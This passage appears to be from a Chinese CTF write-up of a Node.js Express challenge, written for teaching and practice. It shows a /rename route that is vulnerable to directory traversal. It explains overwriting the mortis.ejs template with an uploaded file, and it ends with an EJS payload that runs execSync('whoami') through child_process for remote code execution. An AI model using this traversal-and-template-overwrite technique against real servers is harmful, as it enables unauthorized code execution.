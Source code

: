 ```js
  }

  fs.rename(oldPath, newPath, (err) => {
    if (err) {
      return res.status(500).json({ error: ' ' + err.message });
    }
    res.json({ message: ' ' });
  });
});

app.listen(port, () => {
  console.log(`服务器运行在 http://localhost:${port}`);
});

```

这题有点像24国赛的ezjs

[文章 - 对ejs引擎漏洞及函数特性的利用 - 先知社区](https://xz.aliyun.com/news/14569)

可以看到在 /rename 路由

```js
app.post('/rename', (req, res) => {
  const { oldName, newName } = req.body;
  const oldPath = path.join(__dirname, 'uploads', oldName);
  const newPath = path.join(__dirname, 'uploads', newName);

  if (!oldName || !newName) {
    return res.status(400).json({ error: ' ' });
  }

  fs.rename(oldPath, newPath, (err) => {
    if (err) {
      return res.status(500).json({ error: ' ' + err.message });
    }
    res.json({ message: ' ' });
  });
});
```



这个路由会将uploads目录中的文件重命名

我们可以利用这个路由，通过目录穿越对任意文件进行移动和重命名

也就是说我们可以通过上传恶意的ejs到uploads目录，接着通过/rename路由将我们上传的恶意ejs文件覆写掉/路由的模板文件mortis.ejs实现RCE

eval.ejs

```
<!DOCTYPE html>
<html lang="en">
<head>
</head>
<body>
    <div>
        <%= process.mainModule.require('child_process').execSync('whoami') %>
    </div>
</body>
</html>
```
